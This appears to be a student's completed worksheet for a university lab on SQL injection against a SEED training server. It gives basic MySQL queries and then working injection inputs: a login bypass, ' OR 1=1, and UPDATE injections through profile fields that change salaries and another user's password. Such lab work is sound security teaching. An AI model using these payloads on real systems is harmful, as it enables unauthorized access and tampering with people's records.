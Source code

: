 :lang: en
:source-highlighter: pygments
:icons: font
:xrefstyle: short



=== https://www.cs.swarthmore.edu/~chaganti/cs88/s24/index.html[CS88] Lab-Worksheet https://www.cs.swarthmore.edu/~chaganti/cs88/s24/labs/lab2a.html[Lab2a: SQL Injection Attacks]

*Lab Due Date: Tuesday, February 20th, 11:59 PM*

*For each of the questions below you only need to provide the SQL command and NOT the responses you get after you execute the command*

. Login via `docksh` to the `mySQL` database and provide the SQL command to print all the profile information for Alice in the `credential` table.
+
```
SELECT * FROM credential WHERE Name='Alice';
```

. Login via `docksh` to the `mySQL` database and provide the SQL command to print all the users with a salary greater than `50,000` in the `credential` table.
+
```
SELECT * FROM credential WHERE Salary>50000;
```


. Login via `docksh` to the `mySQL` database and provide the SQL command to update Ted's salary to `120,000` in the `credential` table.
+
```
UPDATE credential SET Salary=120000 WHERE Name='Ted';
```

. Login via `docksh` to the `mySQL` database and provide the prepared SQL command to view all users in the `credential` table with salary greater than $80,000$. You can use this https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html[link] to learn how to construct prepare statements.
+
```
PREPARE cmd1 FROM 'SELECT * FROM credential WHERE Salary>?';
SET @sal=80000;
EXECUTE cmd1 USING @sal;
```

=== SQL Injection Attacks


. On the page `www.seed-server.com` Login to the Admin account *without knowing the admin's password*.
+
```
Username Field: Admin'  #
Password Field:

password field can be left blank
```

. On the page `www.seed-server.com` Login to Alice's account *without knowing her username or her password*. HINT: If there are more than one rows that are returned from an SQL query, the server will display the first row in the list in alphabetical order.
+
```
Username Field: ' OR 1=1;  #
Password Field:

password field can be left blank
```

. On the page `www.seed-server.com` Alice wants to find out if anyone at her firm earns more than `$80,000`. Describe the SQL attack Alice would use to find any one employee who earns more than `$80,000`, without knowing their name or password.
+
```
Username Field: ' OR Salary>80000;  #
Password Field:

password field can be left blank
```

. Having discoverd how much more other employees are earning, Alice wants to update her salary. Change Alice's salary to `$90000`. HINT: you can try to compose an Update using the docker terminal, `docksh` and accessing the `mySQL` database and extrapolate that to the web-server update. Also, you can append a new SQL statement by seperating an existing statement with a `;`.
+
```
Describe the input parameters for each field in Alice's Profile:
NickName Field: Al', Salary=90000 WHERE name = 'Alice'; #
The rest of the fields can be left blank. 
For this, you can pretty much choose any of the fields to do this in but we recommend not using the password field. You first need to start out with a single quote. You can add stuff before like we did which in this case will change the nickname to whatever you have before the single quote. Everything after is to change the salary even though you are in the nickname field.
```

. Alice is also upset that her boss Bob, has not been increasing her pay, and therefore she wants to set Bob's salary to `$1` and change his password to something Bob will never guess. Describe both the attacks below. *Launch these attacks when you are logged in as Alice*.
+
```
Describe the sequence of steps and the two attack statements.
NickName Field: Bob', Salary=1 WHERE name='Boby'; #
  this changes Bob's salary to $1.
Email Field: ', Password='Banana23ejduw$$' WHERE name='Boby'; #
  this changes Bob's password to whatever you fill in above in the quotes.
  
If you try to set both of these things at the same time, it will only set the first one and leave the second unchanged. Therefore, you should save the first one, then edit profile again to do the second one and save it. For example, the first step would be to edit profile and type what we have above into the NickName field and leave the other fields blank, then save profile. Then edit profile again and do the same but for the second command. It does not matter which field you type it in but we recommend not using the password field.
```
